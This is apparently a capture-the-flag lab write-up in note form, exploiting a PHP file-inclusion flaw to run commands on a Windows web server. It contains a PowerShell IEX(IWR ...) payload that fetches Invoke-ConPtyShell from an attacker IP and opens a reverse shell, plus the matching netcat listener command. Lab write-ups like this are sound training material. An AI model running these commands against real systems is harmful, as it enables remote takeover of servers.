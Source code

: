 `echo -n 'PGgxPk1vdmllIG1hbmFnbWVudDwvaDE+DQo8P3BocA0KaWYoIWRIZmluZWQoJ2luY2x1ZGVkJykpD‹/Pil+DQoJCQkJPGlucHVOIHR5cGU9InN1Ym1pdClgY2xhc3M9ImJObiBidG4tc20gYnRuLXByaW1hcnkilHZhb' | base64 -d > master.php`

Some contents of `master.php`

![[Pasted image 20250106203106.png]]
Indicate that we can do a file inclusion.

Back to Burp Repeater to try to reach `/etc/passwd

![[Pasted image 20250106203236.png]]
No results.

Messing with different include statements:

![[Pasted image 20250106203429.png]]
No results. 

Trying this:

![[Pasted image 20250106203818.png]]


ippsec.php on attacker machine just says `echo -n Please Subscribe`

![[Pasted image 20250106203752.png]]
Modifying `ippsec.php` to enumerate webserver

`system("whoami");`

![[Pasted image 20250106203936.png]]
Result in the form lul

![[Pasted image 20250106204028.png]]
Replacing `ippsec.php` with a reverse shell

On Windows, we can use #conptyshell [[ConPtyShell]]

GitHub:
https://github.com/antonioCoco/ConPtyShell


Copy this PowerShell file 

https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1

Replace `ippsec.php` with 

`system("powershell IEX(IWR http://10.10.14.8/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.8 9001`

Then start netcat listener thang on attacker box

`stty raw -echo; (stty size; cat) | nc -lvnp 9001`

Send request on Burp again.
